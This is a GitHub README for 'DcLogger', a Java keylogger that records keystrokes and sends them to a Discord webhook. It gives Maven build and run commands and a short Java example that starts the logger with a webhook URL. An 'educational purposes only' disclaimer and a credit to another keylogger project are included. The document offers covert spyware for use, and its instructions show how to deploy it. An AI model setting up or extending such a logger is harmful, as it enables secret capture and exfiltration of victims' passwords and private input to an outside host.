 <h1 align="center">DcLogger</h1>

<p align="center">A simple key logger application which sends the keys to a discord webhook implemented in Java.</p>

<div align="center">
    <a href="https://discord.com/invite/p2HAPAK"><img src="https://img.shields.io/discord/610120595765723137?logo=discord" alt="Discord"/></a>
    <br><br>
    <img src="https://img.shields.io/github/last-commit/Lyzev/DcLogger" alt="GitHub last commit"/>
    <img src="https://img.shields.io/github/commit-activity/w/Lyzev/DcLogger" alt="GitHub commit activity"/>
    <br>
    <img src="https://img.shields.io/github/languages/code-size/Lyzev/DcLogger" alt="GitHub code size in bytes"/>
    <img src="https://img.shields.io/github/contributors/Lyzev/DcLogger" alt="GitHub contributors"/>
</div>

## Usage

### How to Build and Run Project
Build project: 
```bash
mvn package
```
Run ./target/DcLogger-jar-with-dependencies.jar file using command:
```bash
java -jar ./target/DcLogger-jar-with-dependencies.jar
```
The keys will be sent to the provided webhook.

### Example
```java
/**
 * This is an example on how to use {@link KeyLogger}.
 *
 * @throws MalformedURLException the exception is going to be thrown if the url is incorrect
 */
public static void main(String[] args) throws MalformedURLException {
    KeyLogger logger = new KeyLogger("WEBHOOK-URL"); // Declares and initializes the keylogger
    logger.start(); // Registers the NativeLogger (If it isn't registered the event will not be called, so nothing would be logged)
}
```

## Bugs and Suggestions
Bug reports and suggestions should be made in this repo's [issue tracker](https://github.com/Lyzev/DcLogger/issues) using the templates provided. Please provide as much information as you can to best help us understand your issue and give a better chance of it being resolved.

## Important
Please note, this repository is for educational purposes only. No contributors, major or minor, are to fault for any actions done by this program.

## Credits
* [vakho10](https://github.com/vakho10) for [java-keylogger](https://github.com/vakho10/java-keylogger)
